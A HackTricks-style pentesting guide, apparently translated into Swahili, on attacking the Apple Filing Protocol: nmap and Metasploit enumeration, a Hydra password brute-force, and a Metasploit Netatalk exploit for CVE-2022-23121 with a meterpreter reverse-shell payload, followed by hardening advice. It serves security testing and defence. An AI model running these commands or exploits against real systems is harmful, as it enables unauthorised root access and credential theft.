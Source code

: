 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

The **Apple Filing Protocol** (**AFP**), zamani ikijulikana kama AppleTalk Filing Protocol, ni protokali maalum ya mtandao iliyojumuishwa ndani ya **Apple File Service** (**AFS**). Imeundwa kutoa huduma za faili kwa macOS na Mac OS ya jadi. AFP inajitofautisha kwa kuunga mkono majina ya faili ya Unicode, ruhusa za mtindo wa POSIX na ACL, forks za rasilimali, sifa za ziada zenye majina na mifumo ya kisasa ya kufunga faili.

Ingawa AFP imeondolewa na SMB katika toleo za kisasa za macOS (SMB ni chaguo-msingi tangu OS X 10.9), bado inakutana katika:

* Mazingira ya zamani ya macOS / Mac OS 9
* Vifaa vya NAS (QNAP, Synology, Western Digital, TrueNAS…) vinavyoshirikisha daemon ya wazi **Netatalk**
* Mitandao ya mchanganyiko ya OS ambapo Time-Machine-over-AFP bado imewezeshwa

**Default TCP Port:** **548** (AFP over TCP / DSI)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Enumeration

### Quick banner / server info
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
Useful AFP NSE scripts:

| Script | What it does |
|--------|--------------|
| **afp-ls**            | Orodha ya kiasi na faili za AFP zinazopatikana |
| **afp-brute**         | Nguvu ya nywila dhidi ya kuingia kwa AFP |
| **afp-serverinfo**    | Tupa jina la seva, aina ya mashine, toleo la AFP, UAM zinazoungwa mkono, nk. |
| **afp-showmount**     | Orodha ya sehemu pamoja na ACL zao |
| **afp-path-vuln**     | Hupata (na inaweza kutumia) mwelekeo wa saraka, CVE-2010-0533 |

The NSE brute-force script can be combined with Hydra/Medusa if more control is required:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### Kuingiliana na hisa

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (ukitumia `afpfs-ng` ‑ iliyopakiwa katika usambazaji nyingi)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
Mara tu imewekwa, kumbuka kwamba rasilimali za Mac za jadi zinaifadhiwa kama faili za siri `._*` AppleDouble – hizi mara nyingi zina data muhimu ambayo zana za DFIR zinakosa.

---

## Uthibitisho wa Kawaida & Ukatili

### Mnyororo wa RCE usio na uthibitisho wa Netatalk (2022)

Wauzaji kadhaa wa NAS walituma **Netatalk ≤3.1.12**. Ukosefu wa ukaguzi wa mipaka katika `parse_entries()` unaruhusu mshambuliaji kuunda kichwa kibaya cha **AppleDouble** na kupata **root ya mbali** kabla ya uthibitisho (**CVSS 9.8 – CVE-2022-23121**). Andiko kamili kutoka NCC Group lenye PoC inayotumia Western-Digital PR4100 linapatikana.

Metasploit (>= 6.3) inatoa moduli `exploit/linux/netatalk/parse_entries` ambayo inatoa mzigo kupitia DSI `WRITE`.
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
Ikiwa lengo linaendesha firmware iliyoathiriwa ya QNAP/Synology, ufanisi wa unyakuzi unatoa shell kama **root**.

### Netatalk OpenSession heap overflow (2018)

Netatalk ya zamani (3.0.0 - 3.1.11) ina udhaifu wa kuandika nje ya mipaka katika **DSI OpenSession** handler inayoruhusu utekelezaji wa msimbo usio na uthibitisho (**CVE-2018-1160**). Uchambuzi wa kina na PoC zilichapishwa na Tenable Research.

### Masuala mengine muhimu

* **CVE-2022-22995** – Uelekeo wa symlink unaopelekea kuandika faili bila mipaka / RCE wakati AppleDouble v2 imewezeshwa (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Safari ya saraka katika Apple Mac OS X 10.6 AFP (ilivyogunduliwa na `afp-path-vuln.nse`).
* Hitilafu nyingi za usalama wa kumbukumbu zilisuluhishwa katika **Netatalk 4.x (2024)** – inapendekezwa kuboresha badala ya kurekebisha CVEs za kibinafsi.

---

## Mapendekezo ya Kijamii

1. **Zima AFP** isipokuwa inahitajika kwa dharura – tumia SMB3 au NFS badala yake.
2. Ikiwa AFP lazima ibaki, **boresha Netatalk hadi ≥ 3.1.18 au 4.x**, au tumia firmware ya muuzaji inayorejesha patches za 2022/2023/2024.
3. Lazimisha **UAMs Imara** (mfano *DHX2*), zima maandiko wazi na kuingia kwa wageni.
4. Punguza TCP 548 kwa subnets zinazotegemewa na uweke AFP ndani ya VPN wakati inakabiliwa mbali.
5. Piga skana mara kwa mara kwa kutumia `nmap -p 548 --script afp-*` katika CI/CD ili kugundua vifaa vya uasi / vilivyoshuka.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## Marejeleo

* Netatalk Security Advisory CVE-2022-23121 – "Utekelezaji wa msimbo wa kiholela katika parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Kutatua Hitilafu ya Miaka 18 (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
